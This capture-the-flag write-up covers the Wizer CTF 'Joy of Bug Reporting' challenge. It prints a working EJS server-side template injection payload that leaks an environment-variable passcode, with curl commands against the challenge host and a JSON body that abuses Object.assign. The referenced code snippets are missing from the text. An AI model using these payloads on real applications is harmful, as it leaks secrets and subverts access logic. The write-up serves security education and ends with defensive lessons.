

# Wizer CTF: The joy of bug reporting #2

### Link to challenge: [CTF #2](https://sam.wizer-ctf.com/?id=1or13oi_8621k)

## Challenge Writeup: "The Joy of Bug Reporting"

## Goal

The goal of this challenge was to manipulate the server's state to achieve a very specific configuration: **create 1 exclusive object, 1 exclusive object pending approval, and 1 standard object to win the flag.**

## Description of Code

We were given a Node.js app (`server.js`) that exposed two main endpoints. Here's what each of them was supposed to do:

- **`/reportBug` :** This endpoint is intended for users to submit bug reports. It accepts a `comment`, `name`, and an `avatarBase64` string(basically the image in base64). It then uses the EJS templating engine to generate a webpage using this data — including injecting the image into an HTML `` tag.
    
    **See This endpoint code snippet below:**
    
    
    
- **`/createObjects`:** This endpoint is designed to receive and process an array of various objects. It categorizes and counts these objects based on their `type` and the presence/validity of an `exclusivePasscode`.
    - If the object is of type `exclusive`,  it validates their `exclusivePasscode` against a secret `process.env.EXCLUSIVE_PASSCODE`.
        - If the passcode is correct, it creates the object using this line: `Object.assign({ approved: true }, object)`.
        - If the passcode is wrong, the whole request is immediately rejected with an "Invalid passcode" error.
    - Regular (`non-exclusive`) objects skip this passcode check.
    - Finally, the server counts how many "**approved exclusive objects**," "**exclusive objects pending approval**," and "**standard objects**" have been processed, and reports these counts in its response.
    
     **See This endpoint code snippet below:**
    
    
    

## What’s Wrong with That Approach?

There are two big issues with this setup that open the door for exploitation:

1. **Server-Side Template Injection (SSTI) in `/reportBug`:**
    - The `avatarBase64` input is directly embedded into an HTML image tag's `src` attribute within a template string (``). This string is then passed to `ejs.render`.
    - Because the `avatarBase64` content is concatenated *before* EJS rendering, any EJS template syntax included within `avatarBase64` will be evaluated by the server's EJS engine. This allows an attacker to inject and execute arbitrary EJS code.
2. **Exploitable `Object.assign` Behavior in `/createObjects`:**
    - When an exclusive object with a valid passcode is processed, the code merges `approved: true` with the object via `Object.assign({approved: true}, object)`.
    - However, if the incoming object explicitly contains `"approved": false`, this value will *overwrite* the default `true`, due to how `Object.assign` works.
    - This means an attacker can bypass the approval logic even with a valid passcode by forcibly setting `approved: false`, resulting in the object being counted as "**pending approval**" instead of "**approved**”.

## What would a successful **Server-Side Template Injection (SSTI)** and **API Logic Exploitation** attack look like?

A successful attack chain involves first leaking a secret using SSTI, and then using that secret in a precisely crafted single API request to manipulate the object counts.

1. **Phase 1: Passcode Leak via Server-Side Template Injection on `/reportBug`**
    - **Method:** We exploit the SSTI in the `/reportBug` endpoint to extract the `process.env.EXCLUSIVE_PASSCODE` secret, which is necessary to create approved exclusive objects.
    - **How to Achieve It:** Send a POST request to `/reportBug` with the `avatarBase64` field containing EJS templating that will print the environment variable.
    - **Payload:**
        
        ```json
        {
          "comment": "Leaking Passcode",
          "name": "Attacker",
          "avatarBase64": "R0lGODlhAQABAIAAAP///wAAACH5BAEAAAAALAAAAAABAAEAAAICRAEAOw==\"><%- process.env.EXCLUSIVE_PASSCODE %>"
        }
        ```
        
    - and here is the cURL command
    
    ```powershell
    curl -X POST "[https://event5-challenge2-jbdfv.vercel.app/reportBug](https://event5-challenge2-jbdfv.vercel.app/reportBug)" \
    -H "Content-Type: application/json" \
    -d '{"comment": "Leaking Passcode", "name": "Attacker", "avatarBase64": "R0lGODlhAQABAIAAAP///wAAACH5BAEAAAAALAAAAAABAAEAAAICRAEAOw==\"><%- process.env.EXCLUSIVE_PASSCODE %>"}'
    ```
    
    - **Result:** The server's HTML response will embed the leaked passcode within the `src` attribute of the `` tag. From the provided logs, the leaked passcode was **`TJNFVD897823HDJ45JCFV904JD`**.
2. **Phase 2: Create Objects via API Logic Exploitation on `/createObjects`**
    - **Method:** Leverage the specific behavior of `Object.assign` by including an explicit `"approved": false` property for the "pending approval" object in the same request as the approved exclusive object and the standard object. This allows all three conditions to be met in a single API call.
    - **How to Achieve It:** Send a single POST request to `/createObjects` with a payload containing all three required object types.
        - **Approved Exclusive Object:** Has `type: "exclusive"` and the *correct* `exclusivePasscode`.
        - **Pending Approval Exclusive Object:** Has `type: "exclusive"`, the *correct* `exclusivePasscode`, and crucially, `"approved": false` explicitly set in its payload. This `approved: false` will override `Object.assign({approved: true}, object)` for this specific object, causing it to be counted as pending approval.
        - **Standard Object:** Has any `type` other than `"exclusive"`.
    - **Payload:**
        
        ```json
        [
          { "type": "exclusive", "exclusivePasscode": "TJNFVD897823HDJ45JCFV904JD", "name": "approved_exclusive_obj" },
          { "type": "exclusive", "exclusivePasscode": "TJNFVD897823HDJ45JCFV904JD", "name": "pending_exclusive_obj", "approved": false },
          { "type": "standard", "name": "standard_obj" }
        ]
        ```
        
    - and here is the command to send payload
    
    ```powershell
    curl -X POST "[https://event5-challenge2-jbdfv.vercel.app/createObjects](https://event5-challenge2-jbdfv.vercel.app/createObjects)" \
    -H "Content-Type: application/json" \
    -d '[ {"type": "exclusive", "exclusivePasscode": "TJNFVD897823HDJ45JCFV904JD", "name": "approved_exclusive_obj"},
    			{"type": "exclusive", "exclusivePasscode": "TJNFVD897823HDJ45JCFV904JD", "name": "pending_exclusive_obj", "approved": false},
    			{"type": "standard", "name": "standard_obj"}]'
    ```
    
    - **Expected Server Response:** `Successfully created 1 exclusive objects, 1 exclusive objects pending approval and 1 standard objects` (This single response indicates all conditions are met).

## So What?

This challenge demonstrates how even seemingly robust server-side logic and validation, when combined with specific language features like `Object.assign`, can present subtle but critical vulnerabilities. An SSTI allowed sensitive information (the passcode) to be stolen. This secret, combined with a precise understanding of property assignment, then enabled direct manipulation of the application's state in a well-crafted API request. This highlights that application security relies on a deep understanding of all code interactions and potential overrides.

## Main Takeaways:

- **Avoid Direct User Input Concatenation into Templates:** Always pass user-supplied data as variables to templating functions and rely on the templating engine's built-in escaping to prevent SSTI.
- **Understand Language-Specific Behaviors:** A thorough understanding of how built-in functions (like `Object.assign`) and language features handle property assignment and precedence is crucial. Misunderstandings can lead to unexpected and exploitable behaviors.
- **Comprehensive Input Validation (Beyond Basic Types):** Validation should not just check for data types or simple formats, but also consider how input properties might interact with internal object construction or business logic.

### **Code Wizer!**
